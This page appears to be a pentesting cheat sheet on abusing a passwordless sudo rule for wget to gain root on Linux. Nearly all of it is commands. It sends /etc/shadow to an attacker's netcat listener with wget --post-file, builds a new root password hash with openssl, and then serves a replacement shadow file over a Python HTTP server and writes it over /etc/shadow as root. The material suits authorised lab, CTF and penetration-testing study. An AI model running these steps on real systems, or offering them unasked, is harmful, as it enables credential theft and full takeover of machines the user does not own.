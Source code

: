 ```yaml
---
title: Sudo Wget Privilege Escalation
description: The "sudo wget" command may be vulnerable to privilege escalation (PrivEsc).
tags:
    - Privilege Escalation
refs:
date: 2023-02-05
draft: false
---
```


## Investigation

```sh
sudo -l

(root) NOPASSWD: /usr/bin/wget
```

If we can execute **"wget"** as root, we may be able to escalate privileges.

<br />

## Modify /etc/shadow

Get **"/etc/shadow"** and generate a new hash passwd, then set it to the shadow file, next upload it.  
That changes the root password.

### 1. Get the Content of /etc/shadow

To see the content of /etc/shadow, we can use netcat listener.  
So First, start a listener in local machine.

```sh
nc -lvnp 4444
```

In target machine, display the contents of the **"/etc/shadow"** to the local machine using the following command.  

```sh
sudo /usr/bin/wget --post-file=/etc/shadow <local-ip> 4444
```

We should see the content in our local machine via netcat listener.  
Copy the content.

### 2. Create a New Shadow File

We create a new shadow file in local. The shadow file will be stored into the target **/etc/shadow** later.

```sh
vim shadow.txt
```

In vim editor (or nano, vi, etc.), paste the content of /etc/shadow which we've copied in the previous section.

### 3. Create a New Root User Password and Add to Shadow File

Generate a new hash password for a new root user in local machine.  

```sh
# -6: SHA512
openssl passwd -6 -salt 'salt' 'password'
```

Copy the generated password and paste it at the password of the root user into the **"shadow.txt"**.  
As a result, the contents of the **"shadow.txt"** should look like this:

```sh
root:$6$salt$IxDD...DCy.g.:18195:0:99999:7:::
...
```

### 4. Transfer the Content of the Shadow File

To put the **shadow.txt** into the target machine, start web server for hosting this file.

```sh
python3 -m http.server 8000
```

Download this file into the **/etc/shadow** in remote machine. To do that, we need to run it as root.

```sh
sudo /usr/bin/wget http://<local-ip>:8000/shadow.txt -O /etc/shadow 
```

Finally, you can switch to the root user with the password we've created.

```sh
su root
```